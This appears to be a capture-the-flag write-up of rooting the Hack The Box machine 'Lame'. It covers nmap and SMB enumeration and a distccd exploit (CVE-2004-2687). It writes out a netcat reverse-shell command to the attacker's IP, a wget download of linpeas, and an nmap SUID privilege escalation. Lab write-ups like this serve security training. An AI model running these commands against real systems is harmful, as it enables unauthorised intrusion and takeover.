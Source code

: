 # Lame - 10.10.10.3

Started off with a nmap scan
```
nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3
```
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.\
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.\
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![image](https://user-images.githubusercontent.com/110210595/185813986-3fe1ff10-9b0e-46e6-873a-29d79fd5341e.png)

![image](https://user-images.githubusercontent.com/110210595/185813993-63e2b007-2ec3-4ea1-953e-a9c2db6975a5.png)

I see that smb is open. 139/445. I run ``` markdown smbmap -H 10.10.10.```
and get back some users.

![image](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is READ, WRITE. Lets login and see what we can find.\
I use ``smbclient \\\\10.10.10.3\\tmp markdown`` and we get a hit. \
I use ```markdown\  ls```  to see what we can find. Unfortunately there is nothing here either.\
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![image](https://user-images.githubusercontent.com/110210595/185814036-42698e61-b4e6-4be4-84de-df540f801f33.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running.  <em><strong>distccd v1</em></strong>\
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855 \
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong>\
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  ``` markdown chmod +x CVE-2004-2687.py ``` \
the file is ready to be used. First I started a listener on my attacking machine with ``` markdown nc -lvnp 9001 ``` and then used the following command \
``` markdown ./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` No good, got errors. \
Then I tried. ``` markdown python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python. \
Next up,  ``` markdown python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` Success, we get a shell!

![image](https://user-images.githubusercontent.com/110210595/185814122-93aa8ce3-0128-4f21-a19b-8d04b5580a30.png)

![image](https://user-images.githubusercontent.com/110210595/185814162-05876fb9-000c-4612-bcfc-bd4d8fc70e88.png)

Let's upgrade the shell. I used the following. \
``` markdown python -c 'import pty; pty.spawn("/bin/bash")' ``` python3 and python2 didn't work. \
``` markdown export TERM=xterm ``` \
``` markdown stty raw -echo && fg ``` \
``` markdown enter ``` \
``` markdown enter ``` \

We're a normal user daemon. I started off with ``` markdown sudo -l ``` but it asked for a password. Let's move on.
I look around a bit and ``` markdown cd /home ``` directory and do a ``` markdown ls ``` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I do a cat user.txt at it and we get out our first flag.  

![image](https://user-images.githubusercontent.com/110210595/185814188-b2d3ad0a-a11d-4f7e-a4bc-49c2566b5fa1.png)

![image](https://user-images.githubusercontent.com/110210595/185814191-f868ba55-884e-4c9e-ba39-267b4ee7455c.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh \
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine. \
I use python3 -m http.server 80 get the server up and running. \
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox. \
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file. \
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![image](https://user-images.githubusercontent.com/110210595/185814232-c92b51cf-c297-46b9-ad1f-ed45077f1d5d.png)

![image](https://user-images.githubusercontent.com/110210595/185814233-174d7a35-f050-4533-acd5-6fc6f51f48a7.png)

![image](https://user-images.githubusercontent.com/110210595/185814242-ca1ef7ad-efb5-47bd-8b56-bedfb902f6c7.png)

the /usr/bin/nmap suid \
I head over to https://gtfobins.github.io/ and search for nmap \
I cd /usr/bin where the suid is located. \
I start off with shell code (a) and nothing happened. So I keep going down the list. \
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now cd /root and see what is there which is the root.txt flag! \
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)
